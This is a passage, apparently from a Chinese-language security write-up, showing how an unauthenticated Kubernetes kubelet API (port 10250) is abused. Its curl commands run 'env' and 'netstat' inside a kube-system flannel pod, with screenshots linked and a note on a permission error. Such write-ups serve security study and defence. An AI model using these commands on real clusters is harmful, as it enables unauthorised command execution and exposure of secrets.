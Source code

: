 ```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=env"
```

[![](assets/1698893355-d8e30f93227496ba79d1c112dea9d572.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171053-660b416a-7316-1.png)

```plain
curl -k -XPOST "https://192.168.17.144:10250/run/kube-system/kube-flannel-ds-xwk2t/kube-flannel" -d "cmd=netstat -ntlp"
```

[![](assets/1698893355-b950bcf34fc57e7f48431dd00b423cb5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025171112-71be1410-7316-1.png)  
如果提示Error from server (Forbidden): secrets is forbidden: User “" cannot list resource "secrets" in API则说明权限不够
